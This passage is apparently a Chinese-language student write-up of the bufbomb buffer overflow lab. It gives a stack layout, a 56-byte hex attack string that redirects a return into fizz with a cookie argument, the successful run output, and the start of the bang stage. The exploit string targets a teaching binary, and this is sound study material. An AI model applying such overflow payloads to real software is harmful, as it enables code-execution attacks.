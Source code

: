 | Addr      | Val         | Size |
| --------- | ----------- | ---- |
| +0x12 |       parameter val       |0x4|
| +0x8 |       return addr in fizz       |0x4|
| +0x4      | return addr （old ebp in fizz） | 0x4  |
| +0x0 ebp  | old ebp     | 0x4  |
| -0x28     | buf         | 0x28 |
| -0x38 esp |             |      |

故需要构造长度为`0x28+0x4+0x4+0x4+0x4=0x38=56`的字符串，来覆盖`return addr`和`val`的传参。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 16 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 32 */
00 00 00 00 00 00 00 00 
00 00 00 00 ba 8c 04 08 /* 48 */
00 00 00 00 d7 bf 5a 67 /* 56 */
```

### 结果

```shell
$ ./hex2raw < fizz.txt | ./bufbomb -u U201814791
Userid: U201814791
Cookie: 0x675abfd7
Type string:Fizz!: You called fizz(0x675abfd7)
VALID
NICE JOB!
```

## bang

### 任务

本阶段的任务是设计包含攻击代码的攻击字符串，所含攻击代码首先将全局变量`global_value`设置为你的`cookie`值，然后转向执行`bang()`。

### 题解

首先查看`bufbomb.c`中`bang`的定义。`bang`接受一个`int`型参数`val`，但函数体内并没有使用`val` 。要求全局变量`global_value`与`cookie`值相等。因此需在`getbuf()`中输入构造字符串，其内容为一段自定义的指令，令`global_value=cookie`，并保证执行后跳转到`bang`。

```c
int global_value = 0;

void bang(int val)
{
    if (global_value == cookie) {
        printf("Bang!: You set global_value to 0x%x\n", global_value);
        validate(2);
    } else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```
